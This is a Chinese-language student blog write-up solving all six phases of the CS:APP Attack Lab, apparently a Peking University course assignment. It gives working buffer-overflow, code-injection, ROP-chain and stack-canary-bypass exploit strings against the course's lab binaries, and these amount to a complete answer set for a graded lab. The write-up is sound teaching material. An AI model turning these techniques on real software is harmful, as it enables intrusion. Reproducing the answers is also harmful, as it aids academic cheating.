





# 更适合北大宝宝体质的 Attack Lab 踩坑记

> [!CAUTION]
>
> **致各位同学：本笔记的撰写目的是用作参考，请勿直接抄袭，否则后果自负。**

写在前面：这篇是我第一篇 lab 笔记博文，写的比较粗糙，请见谅。

## Phase 1

首先，进行反编译以得到汇编代码：

```bash
objdump -d ctarget > ctarget.s
```

查找 `getBuf()` 函数确定调用分配的空间：

```asm
0000000000401e5a <getbuf>:
  401e5a:	f3 0f 1e fa          	endbr64
  401e5e:	48 83 ec 18          	sub    $0x18,%rsp
  401e62:	48 89 e7             	mov    %rsp,%rdi
  401e65:	e8 cd 03 00 00       	call   402237 <Gets>
  401e6a:	b8 01 00 00 00       	mov    $0x1,%eax
  401e6f:	48 83 c4 18          	add    $0x18,%rsp
  401e73:	c3                   	ret
```

发现分配了 `0x18 = 24` 的空间地址

继续查找 `touch1` 函数所在地址：

```asm
0000000000401f24 <touch1>:
  401f24:	f3 0f 1e fa          	endbr64
  401f28:	50                   	push   %rax
  401f29:	58                   	pop    %rax
  401f2a:	48 83 ec 08          	sub    $0x8,%rsp
  401f2e:	c7 05 e4 55 00 00 01 	movl   $0x1,0x55e4(%rip)        # 40751c <vlevel>
  401f35:	00 00 00
  401f38:	48 8d 3d d7 23 00 00 	lea    0x23d7(%rip),%rdi        # 404316 <_IO_stdin_used+0x316>
  401f3f:	e8 6c f3 ff ff       	call   4012b0 <puts@plt>
  401f44:	bf 01 00 00 00       	mov    $0x1,%edi
  401f49:	e8 5b 05 00 00       	call   4024a9 <validate>
  401f4e:	bf 00 00 00 00       	mov    $0x0,%edi
  401f53:	e8 b8 f4 ff ff       	call   401410 <exit@plt>
```

发现是在 `0x401f24` 处。

于是得出输入字符串（注意每一行结尾似乎都应该还有一个空格）：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
24 1f 40 00
```

编码成 raw 字符串并测试（即将上面的内容根据 ASCII 码翻译为真实输入）：

```bash
./hex2raw < p1.txt > ans1.txt
./ctarget -i ans1.txt
```

通过：

```text
Cookie: 0x11a67610
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 2

首先，启动 gdb 并设置断点以进行调试。

因为我们的注入代码会放到缓冲区，而我们要进行 ROP 攻击，就需要知道注入的攻击代码的存放地址，也即缓冲区起始地址。

```bash
gdb ctarget
b getbuf
r
layout asm
layout regs
```

待到 `sub $0x18,%rsp` 这条执行完后，也就可以获得当前的栈指针，即缓冲区起始地址 `0x55634688`



然后，编写我们的代码，储存为 `p2.s`：

```asm
movq $0x11a67610,%rdi
pushq $0x401f58
ret
```

这段代码的效果：

1. 将 **立即数** `$0x11a67610` 设置为 `%rdi` 寄存器的值，也即第一个参数
2. 将 **立即数** `$0x401f58` 压入栈中
3. 返回

为什么要这么写？可以参见下图：


然后依次运行

```bash
gcc -c p2.s # 编译
objdump -d p2.o > p2.byte # 翻译为字节码
```

得到 `p2.byte`：

```asm

p2.o:     file format elf64-x86-64


Disasm of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 10 76 a6 11 	mov    $0x11a67610,%rdi
   7:	68 58 1f 40 00       	push   $0x401f58
   c:	c3                   	ret

```

组合我们的代码：

```asm
48 c7 c7 10 76 a6 11 68
58 1f 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
88 46 63 55
```

依次运行：

```bash
./hex2raw < p2.txt > p2a.txt
./ctarget -i p2a.txt
```

于是大功告成！

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 3

简单地翻译一下 `hexmatch`

-   首先分配一个长度为 110 的字符数组，然后再这 110 长度的数组中，随机选择一个小于 100 的起始位置 `s`
-   将不能修改的 `cookie`（也就是 hexmatch 中的 val）按照 hex 十六进制下，首先转为对应的 ASCII 码，然后复制 8 个到 `s` 起始的 8 个字节。
-   比较 `s` 和你修改后，存在 `%rdi` 的参数 `sval`（字符数组首地址），比较 9 个字符（含结尾 `\0`）

所以，我们意识到：

-   我们存在缓冲区的东西可能被清除
-   我们无法确定 `s` 的起始位置，也就无法修改它，只能修改 `sval`

好，我们首先类似 phase 2 的做法，得到了如下的代码 `p3.txt`，它实现：

-   溢出 `getbuf` 分配的 24 字节缓冲区 4 个字节，对于没有使用到的字节，使用 3f 填充加以区分
-   首先进行第一次 `ret`，跳转到我们的注入代码
-   修改 `rdi` 的值为 `0x11a67610`（也就是我们的 Cookie）
-   接着 `pushq 0x40207d`（`touch3` 的地址）
-   `ret`，从而跳转进入 `touch3`

```asm
48 c7 c7 10 76 a6 11 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55
```

类似地，执行

```bash
./hex2raw < p3.txt > p3a.txt
```

获得输入的字符串

然后打开 gdb，依次输入：

```bash
gdb ctarget
b touch3
set args -i p3a.txt
r
layout asm
layout regs
```

成功进入 `touch3` 后，我们首先执行

```bash
x/20x 0x55634688
```

得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x10c7c748      0x6811a676      0x0040207d      0x3f3f3fc3
0x55634698:     0x3f3f3f3f      0x3f3f3f3f      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

可以发现此时我们放在缓冲区的内容还没有被修改，继续 `si`，直到进入 `hexmatch` 函数，继续执行完成 `sub $0x88,%rsp`，再次执行上述查看缓冲区的命令，得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x00404247      0x00000000      0x00000000      0x00000000
0x55634698:     0x0040209d      0x00000000      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

此时发现我们的放在缓冲区的东西全数被覆写，从而我们得知不能再在缓冲区存放我们的字符数组，于是只能另寻他处。

注意到在 `0x556346b8` 这个地址开始，似乎存在一些多余的 0，于是一个很自然的想法是，我们能否将字符数组覆写到这里。

虽然 phase2 中我们知道不能再在溢出的 4 个字节（即第一次控制的 `ret`）后再写什么，因为会影响原有函数的帧栈的一些东西，但是我们如果保存原本存放的东西不变，只覆写 `0x556346b8` 的这些看上去不太有用的 0，也许就可能有效？

于是我们首先将 cookie 转为 ascii 码 `31 31 61 36 37 36 31 30`，然后控制我们的输入，除了第一次 `ret` 需要更改的四个字节外，保持原有字节不动，直至溢出至 `0x556346b8` ，才再次加入我们需要覆写的字节，并调整存在 %rdi 中的数值为 `0x556346b8` ，于是我们得到我们实际应当输入的字节码：

```asm
48 c7 c7 b8 46 63 55 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55 00 00 00 00
09 00 00 00 00 00 00 00
18 28 40 00 00 00 00 00
31 31 61 36 37 36 31 30
```

再依次运行：

```bash
./hex2raw < p3.txt > p3a.txt
./ctarget -i p3a.txt
```

于是再次大功告成！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase4

这题踩了许多的坑：

-   只有 `popq` 可以将你溢出的信息注入到寄存器中（`movl/q` 不行）
-   你必须要对齐 16 字节（而不是 8 字节！）栈指针，即使得任何时候，`%rsp` 的最后一位都要是 0，否则会引发段错误
-   ~~实在在 `farm.c` 中找 gadget 找不到的话，也可以直接找找 `rtarget.s`，但据助教所说，那个 binary 里并不是每一个 section 都是固定地址的，所以如果用了非固定地址的 gadget 会导致问题~~
    如果用了 farm 以外的 gadget，可能导致本地过了但远程测试服务器没分，再找找！
-   在具体的语句（`popq / movl/q`）和 `ret`（`c3`）中，可能存在 `0x90`（`NOP`）

**请务必先全部看完，因为前面写的很多步骤是错误的！！！后面才一边踩坑一边改正！！！**

首先，因为我们要使用 ROP 攻击，我们需要将 farm.c 转为字节码：

```bash
gcc -c farm.c
objdump -d farm.o > farm.s
```

因为我们实际要利用的是代码片段根据不同起始引发的 “二义性”，所以我在 VS Code 中执行了如下的正则表达式替换：

-   `.+:\t(([0-9a-f]{2} )+).+` 替换为 `$1`
-   `(([0-9a-f]{2} )+)\n` 替换为 `$1`

> 想要看我的正则表达式的含义，可以使用 [Regex Vis](https://regex-vis.com/) 网站，上述用例可以参见：
>
> -   [Regex-Vis-1](https://regex-vis.com/?r=.%2B%3A%5Ct%28%28%5B0-9a-f%5D%7B2%7D+%29%2B%29.%2B)
> -   [Regex-Vis-2](https://regex-vis.com/?r=%28%28%5B0-9a-f%5D%7B2%7D+%29%2B%29%5Cn)

这样就可以让我的代码变得只有字节，也就便于我们后续查找我们所需要的 gadget：

```asm
000000000000000f <getval_442>:
f3 0f 1e fa 55 48 89 e5 b8 48 89 c7 91 5d c3
```

因为 `popq` 可以将我们所需要的字符串弹栈到某个寄存器中，于是我们根据下表，检索：


```text
5[89a-f] c3
```

发现我们全文只有 `5d c3`，也就是 `popq %rbp`

显然我们需要将之移动到代表第一个参数的 `%rdi` 中，于是根据：




我们需要检索

-   `movq %rbp D `：`48 89 e[89a-f] c3`
-   `movl %ebp D`：`89 e[89a-f] c3`

直接检索公用后缀即可：

```text
89 e[89a-f] c3
```

发现均没有（草！）

于是又经历几次踩坑，我最终听从树洞的说法，直接忽视了 handout 里要求只能在 farm.c 中查找的要求，转而对 rtarget 直接进行检索：

```bash
objdump -d rtarget > rtarget.s
```

如同前文一样，进行正则表达式替换或者直接使用如下式子检索跳行的 `c3`：

```text
5[89a-f](\s+\t.+\n.+:\t)c3
```

> 调整第一个中括号可以精确匹配寄存器

在文件末尾找到了一个 `5f c3`，对应 `popq %rdi` ，直接一步到位！

```text
  403912:	41 5f                	pop    %r15
  403914:	c3
```

从而我们找到了所需 gadget 地址：`0x403913`

于是我们可以开始构造：

1. `0x00403913`：第一个 gadget
2. `0x11a67610`：Cookie
3. `0x00401ea8`：touch2 函数起始点，**注意可能和之前 ctarget 的 touch2 函数起始点不一样了**

直接构造 `p4.txt`：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

发现报错段错误，通过 gdb 检查发现我们确实修改了 `%rdi` 寄存器的信息，进入了 touch2 函数，甚至都打印了成功信息！




那为什么还是不行呢？这时我们回忆起 phase2 中说明了我们需要完成栈指针的 16 字节对齐，通过 gdb 调试，我们发现我们在执行遇到段错误前，我们的栈指针是 `0x7fffbc3a09d8` 这不是一个 16 字节对齐的数（最后一位是 0 才对）：



所以我们类似地，在 `rtarget.s` 中检索一些 `nop` 指令以对齐，我选择的是 `20 c0` ，直接检索找到

```asm
000000000040223c <setval_254>:
  40223c:	f3 0f 1e fa          	endbr64
  402240:	c7 07 c9 ca 20 c0    	movl   $0xc020cac9,(%rdi)
  402246:	c3                   	ret
```

事实上直到行文至此，我才彻底找到了之前没能成功在 farm 中找到想要的 gadget 的原因：**直接编译 `farm.c` 再反编译出来的字节码和直接反编译 `rtarget.c` 得到的的不一样！！！**



不过已经到这里了，那就先不修改了，反正我幸运地找到了一个固定地址的 gadget~

修改 `p4.txt` 如下，加入第 6 行即可

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
44 22 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

~~大功告成！~~

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

告不了一点，发现得到的是 0.0 的分数，说明越界的 gadget 在远程服务器上无法得分，于是询问大佬，发现之前的过程中忘了可以插入 `0x90` 作为 nop，于是再次以正则表达式检索：

```text
5[89a-f] (90 )+c3
```

成功找到一个新地址 `0x4021bc`，可以实现 `popq %rax`

```text
00000000004021b4 <addval_168>:
f3 0f 1e fa 8d 87 0d 92 58 90 c3
```

同时，我们还需要 `movq %rax %rdi` 或者 `movl %eax %edi`，查表对应 `48 89 c7`，检查得到第二个地址：`0x4021a4`

```text
000000000040219e <setval_337>:
f3 0f 1e fa c7 07 48 89 c7 c3 c3
```

修改 `p4.txt` 如下：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bc 21 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a4 21 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

这下终于大功告成了！

## Phase5

本题类似 Phase3，我们需要讲一个字符数组的起始地址作为 `%rdi` 传参到 `touch3` 函数。

先把 Cookie 转码：`31 31 61 36 37 36 31 30`

根据在 Phase4 中所述方法，首先将全文替换为字节码，以函数截断：

```bash
# Bash
objdump -d rtarget > rtarget.s
cp rtarget.s rtarget.s2
```

然后，在 VS Code 中执行正则替换：

-   `.+:\t(([0-9a-f]{2} )+).+` 替换为 `$1`
-   `(([0-9a-f]{2} )+)\n` 替换为 `$1`

然后对照表格，查找我们所需要的字节码。

大致解题思路如下：

1. 填充 24 个字节导致溢出，开始利用 ROP
2. 将 `%rsp` 的值压入某寄存器，如 `%rdi` 中
3. 将某寄存器如 `%rax` 使用 `popq` 改写为立即数 Offset，其中 Offset 为初始栈顶指针 `%rsp` 到我们溢出的 Cookie 字符数组的地址的偏移量
4. 利用 `leaq` 计算 Offset + 初始栈顶指针，得到 Cookie 字符数组地址，传给 `%rdi`
5. 跳转到 touch3 函数

对照表格和拥有的 farm，编写代码 `p5.s`：

```asm
movq %rsp,%rax
ret
movq %rax,%rdi
ret
popq %rax
nop
ret
mov %eax,%ecx
nop
ret
mov %ecx,%edx
testb %al,%al
ret
mov %edx,%esi
and %dl,%dl
ret
leaq (%rdi, %rsi, 1),%rax
movq %rax,%rdi
ret
```

（有一些无效代码，这些代码是对照最终答案的字节码调整添加的）

运行：

```bash
gcc -c p5.s && objdump -d p5.o > p5.byte
```

得到 `p5.byte` 可以用以检验：

```

p5.o:     file format elf64-x86-64


Disasm of section .text:

0000000000000000 <.text>:
   0:	48 89 e0             	mov    %rsp,%rax
   3:	c3                   	ret
   4:	48 89 c7             	mov    %rax,%rdi
   7:	c3                   	ret
   8:	58                   	pop    %rax
   9:	90                   	nop
   a:	c3                   	ret
   b:	89 c1                	mov    %eax,%ecx
   d:	90                   	nop
   e:	c3                   	ret
   f:	89 ca                	mov    %ecx,%edx
  11:	84 c0                	test   %al,%al
  13:	c3                   	ret
  14:	89 d6                	mov    %edx,%esi
  16:	20 d2                	and    %dl,%dl
  18:	c3                   	ret
  19:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  1d:	48 89 c7             	mov    %rax,%rdi
  20:	c3                   	ret

```

挨个搜就行了 ~~，注意 Phase4 中提到的，正则表达式替换会导致丧失对齐特性的问题，一定根据初始 objdump 得到的代码中的指令地址加以定位。~~

于是我们得到 `p5.txt`：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
8d 22 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00
```

运行：

```bash
./hex2raw < p5.txt > p5a.txt
./rtarget -i p5a.txt
```

大功告成！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 6

由于前面的 Phase4 已经把所有能踩的坑全踩了一遍，Phase6 做的还挺快的。

老样子，先进行反汇编操作：

```bash
objdump -d starget > starget.s
```

观察代码其中的 `getbuf_withcanary` 函数，发现这个函数现在有了金丝雀值保护，这意味着我们不能简单地通过栈溢出解决。

但我们同时注意到，其代码中存在两个奇怪的 `memcpy` 函数，分别位于 `0x402141` 和 `0x40216a`：

```asm
  402118:	e8 ed 02 00 00       	call   40240a <Gets>
  40211d:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
  402123:	48 63 d0             	movslq %eax,%rdx
  402126:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  40212d:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
  402134:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  40213b:	48 89 ce             	mov    %rcx,%rsi
  40213e:	48 89 c7             	mov    %rax,%rdi
  402141:	e8 2a f2 ff ff       	call   401370 <memcpy@plt>
  402146:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
  40214c:	48 63 d0             	movslq %eax,%rdx
  40214f:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  402156:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
  40215d:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
  402164:	48 89 c6             	mov    %rax,%rsi
  402167:	48 89 cf             	mov    %rcx,%rdi
  40216a:	e8 01 f2 ff ff       	call   401370 <memcpy@plt>
```

查阅 `memcpy` 的说明文档

```c
void *memcpy(void *str1, const void *str2, size_t n)
```

得知其接受三个参数，依次是 `目标地址 %rdi`、`源地址 %rsi`、`长度 %rdx`

进一步阅读代码，我们可以得到第一次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

-   （+0x190）`%rbp`，栈底
-   （+0x188）金丝雀值
-   （+0x108）`%rsi`，源地址
-   （+0x100）`%rdx`，复制的长度
-   （+0x000）`%rdi`，`%rsp`，栈顶、目标地址

类似地，得到第二次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

-   （+0x190）`%rbp`，栈底
-   （+0x188）金丝雀值
-   （+0x108）`%rdi`，目标地址
-   （+0x104）`%rdx`，复制的长度
-   （+0x000）`%rsi`，`%rsp`，栈顶，源地址

于是我们可以开始构造输入值 `p6.txt`，通过控制两次复制的长度，以实现第一次复制时将金丝雀值复制下来，同时在第二次复制时，将金丝雀值连同我们注入的 ROP 攻击代码复制上去，从而实现绕过金丝雀值的保护：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
8d 22 40 00 00 00 00 00 // phase5 的攻击代码起始地址
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00 // phase5 的攻击代码结束地址
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00 // 覆写 0x88 和 0x100 两个局部变量
```

直接运行发现遇到了段错误，顺理成章地想到我们在 phase4 中踩过的坑，栈指针没有对应十六字节，导致错误。

所以我们略微调整一下输入代码，引入一下 phase4 中就找到的无义序列地址 `0x402244` 并减少后面的一行代码，得到新的 `p6.txt`：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
44 22 40 00 00 00 00 00
8d 22 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00
```

编译运行：

```bash
./hex2raw < p6.txt > p6a.txt
./starget -i p6a.txt
```

一遍通过！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target starget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

至此，我们终于踩完了所有的坑，完成了 AttackLab！

## 参考资料

-   [不周山 / 【读厚 CSAPP】III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
